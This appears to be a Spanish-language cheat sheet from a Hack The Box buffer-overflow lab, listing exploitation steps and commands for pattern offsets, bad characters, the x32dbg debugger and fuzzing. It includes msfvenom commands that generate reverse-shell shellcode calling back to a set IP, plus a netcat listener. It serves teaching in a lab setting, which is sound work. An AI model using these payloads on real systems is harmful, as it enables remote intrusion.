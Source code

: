 La hoja de trucos es una referencia de comandos útil para este módulo.

## Pasos para solucionar un desbordamiento del búfer

1. Parámetros de fuzzing
2. Control de EIP
3. Identificando malos personajes
4. Cómo encontrar una instrucción de devolución
5. Saltar a Shellcode

## Comandos

| Dominio                                                                                           | Descripción                                                    |
| ------------------------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| **General**                                                                                       |                                                                |
| `xfreerdp /v:<target IP address> /u:htb-student /p:<password>`                                    | RDP a máquina virtual de Windows                               |
| `/usr/bin/msf-pattern_create -l 5000`                                                             | Crear patrón                                                   |
| `/usr/bin/msf-pattern_offset -q 31684630`                                                         | Encontrar el desplazamiento del patrón                         |
| `netstat -a \|findstr LISTEN`                                                                     | Lista de puertos de escucha en una máquina Windows             |
| `.\nc.exe 127.0.0.1 8888`                                                                         | Interactuar con el puerto                                      |
| `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'`                                  | Generar Shellcode Privesc local                                |
| `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'` | Generar Shellcode de Shell inverso                             |
| `nc -lvnp 1234`                                                                                   | Escuche el shell inverso                                       |
| **x32dbg**                                                                                        |                                                                |
| `F3`                                                                                              | Abrir archivo                                                  |
| `alt+A`                                                                                           | Adjuntar a un proceso                                          |
| `alt+L`                                                                                           | Ir a la pestaña Registros                                      |
| `alt+E`                                                                                           | Ir a la pestaña Símbolos                                       |
| `ctrl+f`                                                                                          | Buscar instrucción                                             |
| `ctrl+b`                                                                                          | Buscar patrón                                                  |
| `Search For>All Modules>Command`                                                                  | Busque instrucciones en todos los módulos cargados             |
| `Search For>All Modules>Pattern`                                                                  | Buscar todos los módulos cargados por patrón                   |
| **ERC**                                                                                           |                                                                |
| `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\`                                  | Configurar directorio de trabajo                               |
| `ERC --pattern c 5000`                                                                            | Crear patrón                                                   |
| `ERC --pattern o 1hF0`                                                                            | Encontrar el desplazamiento del patrón                         |
| `ERC --bytearray`                                                                                 | Generar matriz de bytes de todos los caracteres                |
| `ERC --bytearray -bytes 0x00`                                                                     | Generar matriz de bytes excluyendo ciertos bytes               |
| `ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin`                             | Comparar bytes en la memoria con un archivo de matriz de bytes |
| `ERC --ModuleInfo`                                                                                | Lista de módulos cargados y sus protecciones de memoria        |
| **Python**                                                                                        |                                                                |
| `python -c "print('A'*10000)"`                                                                    | Carga útil de impresión difusa                                 |
| `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"`                                        | Escribir la carga útil de fuzzing en un archivo                |
| `breakpoint()`                                                                                    | Agregar un punto de interrupción al exploit de Python          |
| `c`                                                                                               | Continuar desde el punto de interrupción                       |
